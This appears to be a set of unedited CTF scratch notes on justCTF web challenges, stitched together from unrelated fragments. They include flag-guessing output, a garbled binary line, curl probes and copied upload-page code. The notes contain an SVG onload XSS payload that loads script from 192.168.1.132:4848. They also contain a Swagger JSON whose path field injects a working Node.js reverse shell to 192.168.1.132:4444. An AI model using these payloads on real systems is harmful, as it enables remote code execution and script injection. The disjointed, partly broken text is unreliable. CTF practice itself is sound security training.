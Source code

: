 current flag: j
Great! You found first letter
You can send more than one command at the time, for example 'www' will go up by three spots

Current flag: ju


justCTF{J


justCTF{uLSroMxeTAxkNUS

justCTF{uCnLsMaZTuuFXXm

justCTF{uCA8FlFxrGRDciv

 justCTF{uCAjyiOQEbFXkUS
 
 justCTF{uCA8DzDzCTftKZG

justCTF{uCA8yKiIWEsSvBc

justCTF{uCA8yGCq

justCTF{uCA8yGCqg


justCTF{uCA8ysukz

justCTF{uCA8ysuM8erMY


justCTF{uCA8ysuM8q9oV


justCTF{uCA8ysuM8q9BiCl

justCTF{uCA8ysuM8q9BTlK


justCTF{uCA8ysuM8q9BTp}
Win

---
040$ \x80 \x84 \x80 \0\x04 \0 \xC0 \xC4 \xC0 \0 \x04 \0 \x10 \x14 \x10 \0 \x04 \0d \0 \x04 \0 $ \x08 \x88 \x8C \x88 \x18 \x1C \x18 imi \xA9 \xAD \xA9 
 y}yY]Yy}y9=9y}ylMllMl9=9Y]YlMllMlimiy}
 
 
 ## Velociraptor
 
 ```
 $(function() {
    $('#generate-btn').click(function() {
        var payload = {
            template: $('#template').val()
        }

        $.ajax({
            url: '/api/expandTemplate',
            method: 'POST',
            contentType: 'application/json',
            dataType: 'text',
            data: JSON.stringify(payload),
            success: function(response) {
                $('.resultContainer').show();
                $('#result').val(response);
                $('#result').trigger("input");
            }
        });
    });
});
 ```
 
 curl velociraptor.web.jctf.pro/api/expandTemplate -H "Accept: application/json"

{"message":"Specified Accept Types [application/json] not supported. Supported types: [text/plain]","_links":{"self":{"href":"/api/expandTemplate","templated":false}}

 curl -X POST velociraptor.web.jctf.pro/api/expandTemplate -H "Accept: text/plain"

{"message":"Required Body [request] not specified","path":"/request","_links":{"self":{"href":"/api/expandTemplate","templated":false}}}
  ```
curl -X POST http://velociraptor.web.jctf.pro/api/expandTemplate -H 'Content-Type: application/json' -d '{"dataType": "'text'"","data":"any","success":"true"}'
   
   ```
   
   
   Gobucket.zip
   
   ```
    <script>
      var bucketId = localStorage.getItem('bucketId');
      var bucketIdElement = document.getElementById('bucketId')
      var uploadButton = document.getElementById('uploadButton')
      var fileInput = document.getElementById('file')
      var formStatus = document.getElementById('formStatus')

      async function requestBucketId() {
        var response = await fetch("/api/newBucket", { method: "POST" });
        var json = await response.json();

        if (json.ok) {
          return json.bucketId
        } else {
          return null
        }
      }

      async function uploadFile() {
        if (fileInput.files.length != 1) {
          formStatus.innerHTML = `<span style="color: red;">Please select a single file to upload.</span>`
          return 
        }

        if (!bucketId) {
          formStatus.innerHTML = `<span style="color: red;">The bucket ID is not set, please request a new one.</span>`
          return
        }

        var data = new FormData()
        data.append('file', fileInput.files[0])
        data.append('bucketId', bucketId)

        var response = await fetch('/api/uploadFile', {
          method: 'POST',
          body: data
        })
        var json = await response.json()

        if (json.ok) {
          formStatus.innerHTML = `File uploaded successfully: <a href="${json.filepath}">${json.filepath}</a>`
        } else {
          formStatus.innerHTML = `<span style="color: red;">Error occurred while uploading the file: ${json.error}</span>`
        }
      }

      async function fetchBucketId(forceRefresh) {
        if (bucketId == null || forceRefresh) {
          bucketId = await requestBucketId()
          if (bucketId == null) {
            bucketIdElement.innerHTML = `<span style="color: red;">Error occurred while requesting a bucket. Please refresh the page or request a new bucket.<span>`
            return
          }
        }
        
        localStorage.setItem('bucketId', bucketId)
        bucketIdElement.innerText = bucketId
      }

      document.addEventListener("DOMContentLoaded", async function() {
        await fetchBucketId(false)
      });
    </script>
```
APIs
```
var response = await fetch('/api/uploadFile', {
          method: 'POST',
          body: data
```

```
		 var response = await fetch("/api/newBucket", { method: "POST" });
        var json = await response.json();

        if (json.ok) {
          return json.bucketId
        } else {
          return null
        }
      }
	  
```

<svg/onload=setInterval(function(){with(document)body.appendChild(createElement(“script”)).src=”//192.168.1.132:4848″


cea1c26e-a57f-4676-a691-1618ec12bd89


{                                                                                                                                    
          "swagger": "2.0",
          "info": {
              "description": "A",
              "version": "1.0.0",
              "title": "C"
          },
          "schemes": [
              "http"
          ],
          "host": "http://web-api-intended.web.jctf.pro/docs/",
          "basePath": "/",
          "produces": [
              "application/json"
          ],
          "consumes": [
              "application/json"
          ],
          "paths": {
              "/a');};};return exports;})); (function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? \"cmd\" : \"/bin/sh\"; var net = require(\"net\"), cp = require(\"child_process\"), util = require(\"util\"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, \"192.168.1.132\", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === \"undefined\") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on(\"error\", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();(function(){}(this,function(){a=function(){b=function(){new Array('": {
                  "get": {
                      "description": "D",
                      "responses": {
                          "200": {
                              "description": "E",
                              "schema": {
                                  "$ref": "#/definitions/d"
                              }
                          }
                      }
                  }
              }
          },
          "definitions": {
              "d": {
                  "type": "object",
                  "description": "F",
                  "properties": {
                      "id": {
                          "type": "integer",
                          "format": "int64"
                      }
                  }
              }
          }
      }
